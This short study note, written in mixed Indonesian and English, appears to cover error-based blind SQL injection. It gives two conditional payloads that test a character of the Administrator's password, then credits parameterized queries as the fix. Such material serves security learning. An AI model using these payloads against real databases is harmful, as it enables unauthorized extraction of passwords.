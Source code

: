 Picu conditional response
```SQL
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

Atau dengan concatenation
```SQL
xyz'||(SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

## The Bug in The Code
Because it is directly concatenated to string query database
![](attachments/Pasted%20image%2020211028141808.png)

 Safe code, prevent user input to interfering with the query structure (Parameterized Query)
![](attachments/Pasted%20image%2020211028142534.png)


